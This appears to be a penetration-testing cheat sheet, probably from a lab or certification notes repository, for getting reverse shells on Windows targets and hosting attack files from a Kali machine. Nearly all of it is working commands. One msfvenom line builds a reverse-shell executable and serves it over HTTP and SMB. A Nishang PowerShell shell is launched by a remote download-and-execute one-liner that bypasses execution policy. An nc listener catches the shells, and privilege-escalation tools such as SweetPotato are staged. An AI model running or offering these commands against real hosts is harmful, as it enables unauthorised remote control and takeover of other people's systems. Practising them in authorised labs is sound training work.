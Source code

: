 ```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.19.145 LPORT=1111 -f exe > shell.exe 
cp shell.exe /tmp/www

cd /tmp/www
python3 -m http.server 80
smbserver.py s . -smb2support

rlwrap -r -f . nc -nlvp 1111

\\10.11.19.145\s\shell.exe
```

### Reverse Shell Generator

- https://www.revshells.com/

### Nishang

This shell will output stderror

```bash
cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 .
echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.11.19.145 -Port 1111' >> Invoke-PowerShellTcp.ps1
python3 -m http.server 80
```

```bash
rlwrap -r -f . nc -nlvp 1111
```

```bash
c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe -exec bypass -C iex(new-object net.webclient).downloadstring('http://10.11.19.145/Invoke-PowerShellTcp.ps1')
```

## Hosting Files
---
### Prepare Files

Can use linking for HTTP Server

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ ln -s /opt/sectools/powershell/PrivescCheck/PrivescCheck.ps1

┌──(kali㉿kali)-[/tmp/www]
└─$ ln -s /opt/sectools/powershell/PowerSharpPack/PowerSharpPack.ps1
```

SMB share will fail resolving links, use copy instead

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ cp /opt/sectools/win/SweetPotato.exe .
```
